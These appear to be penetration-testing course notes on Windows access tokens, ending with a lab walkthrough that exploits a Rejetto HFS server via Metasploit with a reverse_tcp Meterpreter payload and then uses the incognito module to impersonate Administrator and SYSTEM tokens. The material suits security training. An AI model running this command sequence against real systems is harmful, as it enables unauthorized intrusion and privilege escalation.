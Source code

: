 Windows Access Tokens
- Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
- A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed.
- Access tokens are generated by the winlogon.exe process every time a user authenticates successfully, and includes the identity and privileges of the user account associated with the thread or process. The token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.

Types of Windows Access Tokens:
- Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
- An access token will typically be assigned one of the following security levels:
	- Impersonate-level tokens are created as a direct result of non-interactive login on Windows, typically through specific system services or domain logons.
	- Delegate-level tokens are typically created through an interactive login on Windows, through winlogon.exe, primarily through a traditional login or through remote access protocols such as RDP.
- Impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.
- Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

Windows Privileges:
- The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available.
- Remember that we were able to check the privileges of the target system on a Meterpreter session using the `getprivs` command.
- In order for you to impersonate another Windows access token, you primarily need the SeImpersonatePrivilege privilege, or one of the other two privileges mentioned, assigned to the user account you currently have access to:
	- SeAssignPrimaryToken: This allows a user to impersonate tokens.
	- SeCreateToken: This allows a user to create an arbitrary token with administrative privileges.
	- SeImpersonatePrivilege: This allows a user to create a process under the security context of another user typically with administrative privileges.

The Incognito Module
- Incognito is a built-in meterpreter module that was originally a standalone application that allowed you to impersonate user tokens after successful exploitation.
- We can use the incognito module to display a list of available tokens that we can impersonate.

Techniques for Access Token Impersonation Attack
- There are two techniques used for performing an Access Token Impersonation attack on a target system:
	- The first technique is to list the access tokens already present on the system, and to impersonate them. This is the only technique being demonstrated in this section of the course.
	- The second technique, also known as a potato attack, involves using exploit code to get an NT AUTHORITY access token generated so that the attacker can impersonate it.

Practical Demonstration
Initial Access - Exploitation of Vulnerable HTTP File Server
	- `nmap demo.ine.local`
	- A vulnerable HTTP file server, developed by Rejetto, is running on port 80.
	- `searchsploit hfs`
	- `service postgresql start; msfconsole`
	- `setg RHOSTS demo.ine.local`
	- `search rejetto`
	- `use exploit/windows/http/rejetto_hfs_exec`
	- `set payload windows/meterpreter/reverse_tcp`
	- `options`
	- `exploit`
	- Meterpreter Session:
		- `sysinfo`
		- `pgrep explorer`
		- `migrate 3512`
		- Attempting to migrate to the explorer process in our case leads to failure, and provides us with an access denied error, this is due to the fact that we currently have access via a service account, which is by default unprivileged, this can be confirmed by using the `getuid` and `getprivs` command.
		- `getuid`
		- `getprivs`
	- Even though we have low privileges, we do have the SeImpersonatePrivilege, which means that we can perform an Access Token Impersonation attack.
	- Now we can try to list the access tokens available to us, and perform an Access Token Impersonation attack using the Meterpreter Incognito module.
		- `load incognito`
		- `list_tokens -u`
		- The command we used above would now list all the available Delegation and Impersonation tokens, remember that Delegation tokens are created as the direct result of an interactive logon, and Impersonation tokens are created as the direct result of a non-interactive logon.
		- We can observe that we have the Administrator account's delegation token available on the system, now we will try to impersonate it.
		- `impersonate_token "ATTACKDEFENSE\Administrator"`
		- `pgrep explorer`
		- `migrate 3512`
		- `getprivs`
		- `getuid`
		- Now that we have elevated privileges, we have even more access tokens available for us to impersonate, for example `NT AUTHORITY\SYSTEM`.
		- `list_tokens -u`
		- `impersonate_token "NTAUTHORITY\SYSTEM"`
		- `getuid`
		- `getprivs`
	- In the case that we try to list the access tokens on a system, and no privileged access tokens are available, we would have to use the potato attack instead, to generate an NT\AUTHORITY access token and then impersonate it.